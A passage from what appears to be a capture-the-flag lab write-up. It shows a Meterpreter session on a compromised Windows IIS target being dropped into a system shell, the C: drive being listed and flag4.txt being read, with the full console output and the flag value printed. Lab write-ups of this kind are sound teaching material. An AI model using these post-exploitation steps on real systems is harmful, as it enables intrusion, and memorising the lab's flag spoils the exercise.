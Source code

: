 Now we have a command shell on the target system. Let's navigate to retrieve our final flag:

```bash
meterpreter > shell
Process 1692 created.
Channel 1 created.
c:\windows\system32\inetsrv> cd c:\
c:\> dir
c:\> type flag4.txt
```

**System Access and Flag Retrieval:**
```
meterpreter > shell
Process 1692 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>cd c:\
cd c:\

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of c:\

09/28/2025  01:21 PM                34 flag4.txt
06/13/2024  10:35 AM    <DIR>          inetpub
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
11/15/2022  06:51 AM    <DIR>          Program Files (x86)
06/13/2024  08:41 AM    <DIR>          Shares
01/09/2025  05:36 AM    <DIR>          Users
01/09/2025  05:30 AM    <DIR>          Windows
               1 File(s)             34 bytes
               7 Dir(s)     239,054,848 bytes free

c:\>type flag4.txt
type flag4.txt
972d3f3b01e8468bb9ea81ce98d34c75
```

**Flag 4 Content:**
```
972d3f3b01e8468bb9ea81ce98d34c75
```

🚩 **Flag 4**: `972d3f3b01e8468bb9ea81ce98d34c75`

## Attack Chain Summary
